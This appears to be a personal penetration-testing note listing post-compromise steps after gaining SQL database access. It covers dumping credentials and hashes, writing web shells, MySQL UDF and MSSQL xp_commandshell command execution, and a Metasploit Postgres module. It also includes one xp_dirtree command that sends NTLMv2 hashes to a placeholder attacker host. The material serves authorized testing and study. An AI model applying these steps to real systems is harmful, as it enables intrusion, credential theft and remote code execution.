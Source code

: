 # got access to databases - general SQL
- dump creds / hashes
- dump hashes of database users `mysql.users`
- command execution
  - write web shell directly into outfile - may return SQL error but still write file
  - code execution built into database or with modules
  - write config backups with web shells embedded in data
  - edit user hashes authenticate for auth RCE
  - servers running as root
  - mysql -> raptor udf2 command exec
    - mysql GRANT OPTION -> grant file permissions
  - mssql -> enable `xp_commandshell`
  - Postgres 9.3+ auth RCE -> msf `multi/postgres/postgres_copy_from_program_cmd_exec`
- read files
- check if DBA -> enable access to files / commands
- target DBA or privileged user for file write or RCE
- see what other databases are accessable
- CMS database looking for foothold -> possible extra enumeration
  - installed plugins
  - data -> hidden posts, secrets, creds in messages
- mssql + SQLi
  - stacked queries common
  - `xp_commandshell`
  - capture NTLMv2 hashes `EXEC xp_dirtree '\\attacker.ip\share'`

` zet/20221003151204/README.md `

# Related

- [20221003150436](/zet/20221003150436/README.md) webshells for all sorts of languages
- [20221003151055](/zet/20221003151055/README.md) get windows verison info from file read
- [20221003151059](/zet/20221003151059/README.md) locations where authenticated users can write in windows
- [20221009102436](/zet/20221009102436/README.md) hacking to try lists
- [20221003151285](/zet/20221003151285/README.md) postgres cannot find table name
- [20221003151236](/zet/20221003151236/README.md) mysql mariadb
- [20221003151234](/zet/20221003151234/README.md) mysql mariadb UDF shell
- [20221003151192](/zet/20221003151192/README.md) HTTP TRY
- [20221003151188](/zet/20221003151188/README.md) HTTP found CMS
- [20221003150988](/zet/20221003150988/README.md) mariadb mysql
- [20221003150987](/zet/20221003150987/README.md) mariadb mysql SQLi
- [20221003150984](/zet/20221003150984/README.md) mariadb mysql SQLi information tables
- [20221003150983](/zet/20221003150983/README.md) mariadb mysql files
- [20221003150981](/zet/20221003150981/README.md) mariadb mysql files read
- [20221003150980](/zet/20221003150980/README.md) mariadb mysql files write
- [20221003150979](/zet/20221003150979/README.md) mariadb mysql files read database users
- [20221003150829](/zet/20221003150829/README.md) postgres sql enumeration list
- [20221003150826](/zet/20221003150826/README.md) postgres sql enumeration exit

Tags:

    
